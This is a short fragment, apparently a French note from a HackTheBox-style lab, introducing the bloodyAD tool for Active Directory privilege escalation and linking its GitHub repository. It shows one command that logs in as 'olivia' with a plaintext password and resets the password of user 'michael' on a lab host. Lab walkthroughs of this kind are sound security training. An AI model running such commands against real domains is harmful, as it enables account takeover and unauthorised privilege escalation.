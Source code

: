 est un couteau suisse d'escalade des privilèges Active Directory
./bloodyAD.py --host "10.10.11.42" -d "Administrator.htb" -u "olivia" -p "ichliebedich" set password "michael" "Password@123"
https://github.com/CravateRouge/bloodyAD